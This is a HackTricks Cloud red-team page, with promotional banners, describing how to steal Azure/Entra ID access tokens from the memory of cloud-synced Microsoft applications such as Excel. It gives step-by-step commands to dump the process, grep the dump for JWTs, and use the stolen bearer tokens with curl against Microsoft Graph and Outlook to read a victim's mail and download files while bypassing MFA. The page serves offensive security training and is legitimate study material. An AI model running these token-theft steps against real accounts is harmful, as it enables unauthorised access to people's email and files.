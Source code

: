 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

As explained in [**this video**](https://www.youtube.com/watch?v=OHKZkXC4Duw), some Microsoft software synchronized with the cloud (Excel, Teams...) might **store access tokens in clear-text in memory**. So just **dumping** the **memory** of the process and **grepping for JWT tokens** might grant you access over several resources of the victim in the cloud bypassing MFA.

Steps:

1. Dump the excel processes synchronized with in EntraID user with your favourite tool.
2. Run: `string excel.dmp | grep 'eyJ0'` and find several tokens in the output
3. Find the tokens that interest you the most and run tools over them:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq   
 
# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq   

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq     
 
## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq 
 
## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~] 
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**Note that these kind of access tokens can be also found inside other processes.**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
